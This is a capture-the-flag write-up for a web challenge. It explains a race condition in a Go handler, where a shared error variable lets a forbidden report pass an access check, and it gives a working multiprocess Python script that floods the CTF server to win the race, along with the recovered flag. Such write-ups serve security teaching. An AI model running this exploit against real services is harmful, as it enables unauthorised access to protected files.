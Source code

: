 ```yaml
---
title: "██████████"
description: "RISC intro2web challenge 7"
pubDate: "Aug 27 2025"
heroImage: "/hero/RISC.webp"
tags: ["cyber", "go", "python", "ctf", "exploit"]
---
```


###### [Canonical > RISC](https://writeups.urisc.club/web/7___________/)

## Challenge description

The ██████ with ███████ has ██████ and the ███ ███ ███████. Report ID 6 is not to be ████████.

---

## Approach

We can go to `/transparency/` and find that "Report ID 6" from the hint is referring to `Report 6 (PDF) (TO BE REVIEWED)` from the Transparency Report.

Looking at the `session.go` source code we find the vulnerability here:

```go
sockdir := "/tmp/session." + session
err := os.Mkdir(sockdir, 0o777)
if err != nil {
	panic(err)
}

http.HandleFunc("/getReport", func(w http.ResponseWriter, r *http.Request) {
	id := r.URL.Query().Get("id")
	if err = shouldAllowReport(id); err != nil {
		http.Error(w, "Invalid report!", http.StatusInternalServerError)
		return
	}

	file, err := os.Open("reports/" + id)
	if err != nil {
		http.Error(w, "Filesystem Error", http.StatusInternalServerError)
		return
	}

	data, err := io.ReadAll(io.LimitReader(file, 16777216))
	if err != nil {
		http.Error(w, "File Read Error", http.StatusInternalServerError)
		return
	}

	w.Write(data)
})
```

Specifically, `if err = shouldAllowReport(id)` doesnt use `:=` to declare and assign `err` like all the other calls, instead it uses `=` which assigns the error to the previously declared `err` at `err := os.Mkdir(sockdir, 0o777)`.

This means that all threads of the `/getReport` http handler will use the same `err` variable, exposing a potential race condition where a request for `6.pdf` sets `err`, then a request to an allowed pdf sets it to `nil` making the `err != nil` check after `shouldAllowReport` pass for the `6.pdf` request.

We will attempt to hit the race condition by spamming requests to the server, some for 05.pdf which is allowed but returns a filesystem error to be faster than returning the pdf content, and some for 6.pdf to get our flag.

### Python implementation

```python
import requests
import os
from multiprocessing import Process, Queue

URL = "http://leftmanbrothers.ctf.urisc.club"


def worker(report_id, queue, cookie):
	sess = requests.Session()
	sess.cookies.set("sessionid", cookie)

	while True:
		r = sess.get(f"{URL}/transparency/getReport", params={"id": report_id})

		if r.status_code == 502:
			queue.put(None)
			return

		if report_id == "6.pdf" and r.status_code == 200:
			queue.put(r.content)
			return


def main():
	while True:
		queue = Queue()

		sess = requests.Session()
		r = sess.get(f"{URL}/transparency/")
		session_id = r.cookies.get("sessionid")

		print("Starting new session: ", session_id)

		processes = []
		for _ in range(14):
			p = Process(target=worker, args=("05.pdf", queue, session_id))
			processes.append(p)
			p.start()

		for _ in range(14):
			p = Process(target=worker, args=("6.pdf", queue, session_id))
			processes.append(p)
			p.start()

		flag = queue.get()

		for p in processes:
			p.terminate()
			p.join()

		queue.close()
		queue.join_thread()

		if flag is not None:
			with open("/tmp/6.pdf", "wb") as f:
				f.write(flag)

			print("Flag written to /tmp/6.pdf!")
			os.popen("open /tmp/6.pdf")
			break


if __name__ == "__main__":
	main()
```

After running for a few minutes, we get a success and find a sensitive note in 6.pdf:

> In recognition of the extraordinary discretion required, authentication for all internal<br>
> requests related to Project Backdoor will utilize the following passphrase:<br>
> RISC{leftman_liquidity_forever_9a7f42}<br>
> This string is not to be transmitted over open channels.

Our flag is:

```
RISC{leftman_liquidity_forever_9a7f42}
```
